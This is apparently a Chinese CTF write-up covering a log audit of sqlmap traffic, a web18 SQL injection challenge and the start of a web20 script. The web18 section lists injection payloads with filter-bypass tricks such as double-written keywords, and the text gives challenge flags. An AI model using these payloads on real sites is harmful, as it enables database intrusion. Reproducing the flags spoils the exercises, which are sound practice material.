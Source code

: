 ```
flag{FjXAkdGnOBoIUZaFzHqjInY2VndLSg}
```

## 日志审计
下载日志文件，在notepad++中打开后，搜索flag（后来发现应该搜索sqlmap的。。），找到有一块日志一连串地请求同一个链接，而且请求中带有sqlmap，应该是在用sqlmap进行SQL注入。
```
/flag.php?user=hence...
/flag.php?user=hence...
...
```
编写脚本进行url解码，然后发现解码后的链接中有一些数字，如102，108，97，103，这就是"flag"的ascii码，所以连着后面几个链接中的数字进行转换，得到flag为
```
flag{mayiyahei1965ae7569}
```
脚本如下：
```python
import urllib.parse
import re

with open('./日志审计.log', 'r') as f:
    lines = f.readlines()

lines = [re.findall('\)\)=(.*?)--', urllib.parse.unquote(line).strip())[0] for line in lines if '/flag.php?' in line]
for line in lines:
    print(line)

print(''.join([chr(int(line)) for line in lines]))
```

## web18
点一下能点的按钮，发现List按钮链接中有id，可能存在注入点，修改id值
```
# 测试注入点
?id=1			# 结果正常
?id=1'			# 结果为空，说明闭合了前面的'号
?id=1' --+ 		# 结果正常，说明注释后面成功了，那么接下来就在中间添加注入语句

# 测试是否存在过滤
?id=1' or 1=1 --+		# 结果为空，可能过滤了or
?id=1' oorr 1=1 --+		# 双写绕过，结果正常了，确实是过滤了or，推测可能也过了了select、union、and等
?id=1'^(length('select')!=0) --+	# 异或注入看看是不是真过滤了，返回结果正常，表示确实过滤了，同理可以测试union也被过滤了

# 测试字段数和输出位置
?id=-1' uniounionn selecselectt 1,2,3 --+		# 结果正常，表示字段数为3个，并且从输出看的话，会输出第2、3个字段，因为第1个会被what do you do?这个字符串占用。

# 开始爆库、爆表、爆字段、爆数据
?id=

```
## web20
动态秘钥可能有时限，所以直接上脚本；看提示说要把密文用get请求提交，所以脚本如下：
```python
import requests
import re

s = requests.session()
# 可能没跑出来，多跑几次
for i in range(10):
    response = s.get("http://123.206.31.85:10020/")
```